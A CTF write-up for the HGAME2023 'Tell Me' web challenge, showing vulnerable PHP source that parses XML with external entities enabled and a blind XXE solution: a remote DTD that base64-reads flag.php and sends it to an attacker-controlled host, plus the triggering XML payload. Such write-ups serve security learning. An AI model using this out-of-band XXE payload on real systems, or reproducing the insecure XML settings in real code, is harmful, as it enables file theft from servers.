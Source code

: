 # [HGAME2023]Tell Me
![](<./img/Pasted image 20230205110445.png>)

![](<./img/Pasted image 20230205110501.png>)

![](<./img/Pasted image 20230205110522.png>)

提示可以下载源码

![](<./img/Pasted image 20230205110551.png>)

`send.php`

```php
<?php 
    
libxml_disable_entity_loader(false);

if ($_SERVER["REQUEST_METHOD"] == "POST"){
    $xmldata = file_get_contents("php://input");
    if (isset($xmldata)){
        $dom = new DOMDocument();
        try {
            $dom->loadXML($xmldata, LIBXML_NOENT | LIBXML_DTDLOAD);
        }catch(Exception $e){
            $result = "loading xml data error";
            echo $result;
            return;
        }
        $data = simplexml_import_dom($dom);

        if (!isset($data->name) || !isset($data->email) || !isset($data->content)){
            $result = "name,email,content cannot be empty";
            echo $result;
            return;
        }

        if ($data->name && $data->email && $data->content){
            $result = "Success! I will see it later";
            echo $result;
            return;
        }else {
            $result = "Parse xml data error";
            echo $result;
            return;
        }
    }
}else {
    die("Request Method Not Allowed");
}

?>
```

`flag.php`

```php
<?php 
    $flag1 = "hgame{xxxx}";
?>
```

明示`XXE`盲注

在vps上部署`DTD`文件

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=flag.php">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://xxx.xxx.xxx.xxx:2333?p=%file;'>">
```

![](<./img/Pasted image 20230205111620.png>)

payload如下

```xml
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "https://cloud.cracktc.top/d/local/test.dtd?sign=xxx">
%remote;%int;%send;
]>
```

![](<./img/Pasted image 20230205112753.png>)

![](<./img/Pasted image 20230205112853.png>)

#Web #PHP #源码泄漏 #XXE #盲注 #DTD #伪协议 